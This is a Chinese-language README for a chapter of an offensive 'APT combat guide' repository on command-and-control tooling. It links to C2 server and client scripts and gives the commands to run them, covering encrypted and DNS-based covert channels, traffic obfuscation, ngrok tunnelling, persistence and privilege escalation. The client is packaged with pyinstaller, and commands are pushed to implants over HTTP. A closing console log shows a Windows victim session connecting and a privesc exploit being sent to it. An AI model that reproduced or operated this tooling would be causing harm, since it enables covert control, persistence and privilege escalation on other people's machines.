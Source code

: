 ## 基础通信

[c2_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%9F%BA%E7%A1%80%E9%80%9A%E4%BF%A1/c2_server.py)

```bash
python3 c2_server.py
```

[c2_client.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%9F%BA%E7%A1%80%E9%80%9A%E4%BF%A1/c2_client.cpp)

```bash
http://IP地址:8080/update_command?cmd="new command"
```

## 加密通信

[crypto_c2.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%8A%A0%E5%AF%86%E9%80%9A%E4%BF%A1/crypto_c2.py)

```bash
python3 crypto_c2.py
```

[crypto_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%8A%A0%E5%AF%86%E9%80%9A%E4%BF%A1/crypto_client.py)

```bash
pyinstaller --onefile .\crypto_client.py
```

```bash
http://IP地址:8080/update_command?cmd="New command"
```

## C2基础设施搭建

### 代理服务器

[c2_proxy_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_proxy_server.py)

```bash
python3 c2_proxy_server.py
```

[c2_agent.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_agent.py)

[c2_agent_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_agent_client.py)

```bash
http://IP地址:8080/update_command?cmd="New command"
```

### 流量混淆

[c2_encode_wt.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_encode_wt.py)

[c2_encode_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_encode_client.py)

[change_command.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/change_command.py)

```bash
python3 c2_encode_wt.py
python3 c2_encode_client.py
python3 change_command.py
```

### 内网穿透

[Ngrok](https://dashboard.ngrok.com/get-started/setup/linux)

```bash
tar -zxvf ngrok软件包 -C /usr/local/bin
ngrok config add-authtoken 认证令牌
```

```bash
python3 c2_encode_wt.py
ngrok http 8080
```

[c2_ngrok.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_ngrok.py)

```bash
python3 c2_ngrok.py
python3 change_command.py
```

## 隐蔽通信

[hide_wt.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E9%9A%90%E8%94%BD%E9%80%9A%E4%BF%A1/hide_wt.py)

[hide_wt_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E9%9A%90%E8%94%BD%E9%80%9A%E4%BF%A1/hide_wt_client.py)

```bash
pip3 install dnspython
python3 hide_wt.py
python3 hide_wt_client.py
python3 change_command.py
```

## C2命令执行

[c2_control.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/c2_control.py)

[c2_exec.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/c2_exec.py)

```bash
python3 c2_control.py
```

```bash
c2_exec.py
```

## C2多阶段攻击

### 持久性

[c2_per.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/c2_per.py)

```bash
pip3 install tabulate
```

[per_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/per_client.py)

```bash
python3 c2_per.py
```

```bash
python3 per_client.py
```

### 特权提升

[privesc_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/privesc_server.py)

[privesc_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/privesc_client.py)

```bash
python3 privesc_server.py
python3 privesc_client.py
```

```bash
┌──(crypto)─(root㉿kali)-[~/c2]
└─# python3 privesc_server.py
C2 Console running...
C2> Session 1 connected

C2> sessions
+------------+---------+---------------+-------+
| Session ID | System  |  IP Address   | User  |
+------------+---------+---------------+-------+
|     1      | Windows | 192.168.0.170 | apt-i |
+------------+---------+---------------+-------+
C2> set session 1
Session 1 selected
C2> use privesc
Module privesc loaded
C2> exploit
Exploit command sent to session 1
C2> Session 2 connected

C2> exec whoami /priv
```
